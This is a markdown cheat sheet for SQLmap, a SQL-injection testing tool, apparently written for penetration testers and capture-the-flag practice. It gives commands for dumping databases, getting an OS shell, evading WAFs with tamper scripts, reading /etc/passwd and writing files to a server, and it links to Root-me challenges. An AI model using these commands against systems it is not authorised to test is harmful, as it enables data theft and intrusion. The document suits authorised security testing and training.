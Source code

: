```yaml
---
title: "SQLmap"
description: "SQLmap is an open-source tool that automates the detection and exploitation of SQL Injection vulnerabilities. It is the essential tool for web penetration testing."
seo:
  title: ""
  description: "SQLmap is an open-source tool that automates the detection and exploitation of SQL Injection vulnerabilities. It is the essential tool for web penetration testing."
---
```


SQLmap is an open-source tool that automates the detection and exploitation of SQL Injection vulnerabilities. It is the essential tool for web penetration testing.

## Basic Commands

| Action         | Command                                                     |
| -------------- | ----------------------------------------------------------- |
| Simple test    | `sqlmap -u $url`                                            |
| POST Request   | `sqlmap -u $url --data "username=test&password=test"`       |
| List databases | `sqlmap -u $url --dbs`                                      |
| List tables    | `sqlmap -u $url -D $dbname --tables`                        |
| List columns   | `sqlmap -u $url -D $dbname -T $table --columns`             |
| Data Dump      | `sqlmap -u $url -D $dbname -T $table -C "COL1,COL2" --dump` |

## Injection Techniques

SQLmap can use various techniques to extract data. You can specify them to refine your search.

| Option                   | Technique                                                                                                                     |
| ------------------------ | ----------------------------------------------------------------------------------------------------------------------------- |
| `-p "param"`             | Specifies the vulnerable parameter to test.                                                                                   |
| `--technique=BUEST`      | Only uses the specified techniques: **B**oolean-based, **U**nion-based, **E**rror-based, **S**tacked queries, **T**ime-based. |
| `--level=3`              | Sets the aggression level of the test (1 to 5). A higher level tests more parameters (Headers, Cookies, etc.).                |
| `--risk=3`               | Sets the risk of the injected payload (1 to 3). A higher risk may involve writing to the DB.                                  |
| `--os-shell`             | Attempts to gain an interactive Operating System shell (if privileges allow).                                                 |
| `--cookie "SESSION=..."` | Injects a cookie to maintain the session state.                                                                               |
| `--random-agent`         | Use a random HTTP User-Agent header from a list to evade simple bot detection based on fixed User-Agents.                     |

## WAF Evasion

SQLmap offers tamper scripts to automatically obfuscate payloads, helping to bypass Web Application Firewalls (WAFs) and basic filtering mechanisms.

```sh
sqlmap -u $url --tamper=SCRIPT
```

{{< details "See most used tamper scripts" >}}

| Script                      | Description                   |
| --------------------------- | ----------------------------- |
| `space2comment`             | replaces spaces with `/**/`   |
| `unionalltostackedsqueries` | changes `UNION ALL` structure |
| `apostrophemask`            | obfuscates apostrophes        |

{{< /details >}}

## File Access

{{< callout note >}} ⚠️ Requires a user with sufficient privileges (e.g., `FILE`privilege). {{< /callout >}}

| Action       | Command                                                                      |
| ------------ | ---------------------------------------------------------------------------- |
| Read a file  | `sqlmap -u $url --file-read "/etc/passwd"`                                   |
| Write a file | `sqlmap -u $url --file-write "/tmp/localFile" --file-dest "/path/to/remote"` |

## SQLi Challenges

- [Root-me - Injection Auth](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-Authentification)
- [Root-me - Injection Auth GBK](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-authentification-GBK)
- [Root-me - String](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-String)
- [Root-me - Error](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-Error)
- [Root-me - Time based](https://www.root-me.org/fr/Challenges/Web-Serveur/SQL-injection-Time-based)
